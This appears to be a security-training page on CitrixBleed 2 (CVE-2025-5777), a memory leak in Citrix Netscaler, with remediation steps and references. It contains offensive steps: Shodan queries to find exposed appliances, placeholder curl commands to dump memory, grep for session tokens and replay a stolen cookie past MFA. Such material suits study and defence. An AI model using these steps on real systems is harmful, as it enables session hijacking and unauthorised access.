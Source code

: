 # Memory Leak Exploitation

{{#include ../banners/hacktricks-training.md}}

## Overview

Citrix CVE-2025-5777, also known as CitrixBleed 2: Electric Boogaloo, is a remote, unauthenticated memory-leak vulnerability in Citrix Netscaler Gateway and AAA virtual servers. By issuing a crafted HTTP GET request to the management interface, an attacker can retrieve a raw memory dump containing sensitive data such as session tokens.

## CVE-2025-5777 – CitrixBleed 2

- Vulnerable endpoint: Netscaler HTTP management interface (Gateway/AAA virtual servers).
- Exploitability: Remote, unauthenticated (no credentials or MFA required).
- Impact: Confidentiality (leaks plaintext session tokens for ICA/RDP channels).

## Reconnaissance

Identify internet-exposed Netscaler instances using Shodan:

```bash
# Favicon hash (Citrix Netscaler)
http.favicon.hash:-1292923998,-1166125415

# Combined with organizational filters
org:YourOrg http.favicon.hash:-1292923998,-1166125415
ssl:YourOrg html:Citrix
```

## Exploitation

1. Send crafted GET request to dump memory:

```bash
curl -s http://TARGET_IP/<vulnerable/interface> -o memory_dump.bin
```

2. Analyze the memory dump for session tokens:

```bash
# Search for Citrix session tokens
strings memory_dump.bin | grep -E "CITRIXSESSION|PCoIP"

# Or use xxd and grep
xxd memory_dump.bin | grep "CITRIXSESSION"
``` 

## Session Hijacking

Extracted tokens can be replayed by including them in the `Cookie` header of ICA or PCoIP connection requests, bypassing authentication and MFA:

```bash
curl -s -H "Cookie: CITRIXSESSION=<token>" \
     "http://TARGET_IP/<ICA_or_PCoIP_endpoint>"
```

## Remediation

1. Upgrade all affected Citrix Netscaler appliances to the fixed builds as per Citrix advisory.
2. Invalidate any leaked tokens by terminating active sessions on appliances:

```bash
kill icaconnection -all
kill pcoipConnection -all
```

## References

- Original blog post: https://doublepulsar.com/citrixbleed-2-electric-boogaloo-cve-2025-5777
- Citrix Advisory (CTX693420): https://support.citrix.com/article/CTX693420
- CVE details: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-5777
- Previous CitrixBleed (CVE-2023-4966): https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-4966

{{#include /banners/hacktricks-training.md}}
